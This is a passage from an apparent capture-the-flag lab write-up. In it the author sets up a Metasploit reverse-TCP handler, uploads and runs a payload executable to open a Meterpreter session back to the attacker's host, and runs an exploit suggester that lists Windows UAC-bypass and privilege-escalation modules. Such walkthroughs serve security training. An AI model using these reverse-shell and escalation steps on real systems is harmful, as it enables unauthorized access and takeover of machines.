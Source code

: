I'll setup a multi handler listener with the same options we used in the msfvenom command above and run it in the background with `run -j`.

```terminal
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp         
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set payload windows/meterpreter/reverse_tcp                 
payload => windows/meterpreter/reverse_tcp      
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lhost tun0
lhost => tun0        
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lport 5555
lport => 5555                                
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> run -j        
[*] Exploit running as background job 0.        
[*] Exploit completed, but no session was created.             
[msf](Jobs:1 Agents:1) exploit(multi/handler) >>
[*] Started reverse TCP handler on 10.66.66.230:5555 
```

I'll go back the meterpreter session with `session 1` and upload the rev.exe file we created.

```terminal
(Meterpreter 1)(C:\Users\User\Downloads) > upload rev.exe
[*] Uploading  : /home/sirius/ctf/ptd/hollywood/rev.exe -> rev.exe
[*] Uploaded -1.00 B of 72.07 KiB (-0.0%): /home/sirius/ctf/ptd/hollywood/rev.exe -> rev.exe
[*] Completed  : /home/sirius/ctf/ptd/hollywood/rev.exe -> rev.exe
(Meterpreter 1)(C:\Users\User\Downloads) >
```

Now I'll drop to a normal shell and run the exe file.

```terminal
C:\Users\User\Downloads>.\rev.exe
.\rev.exe

C:\Users\User\Downloads>
[*] Sending stage (177734 bytes) to 10.150.150.219
background[*] Meterpreter session 2 opened (10.66.66.230:5555 -> 10.150.150.219:49289) at 2025-04-26 11:17:11 +0100
```

We got the new meterpreter session.

Let's exit the current session and go back to exploit suggester, set the new session and rerun it.

```terminal
[msf](Jobs:0 Agents:2) post(multi/recon/local_exploit_suggester) >> exploit                                                                                                         [153/1476]
[*] 10.150.150.219 - Collecting local exploits for x86/windows...
[*] 10.150.150.219 - 202 exploit checks are being tried...
[+] 10.150.150.219 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
[+] 10.150.150.219 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.150.150.219 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detec
ted!
[+] 10.150.150.219 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.150.150.219 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.150.150.219 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.150.150.219 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.150.150.219 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.150.150.219 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
```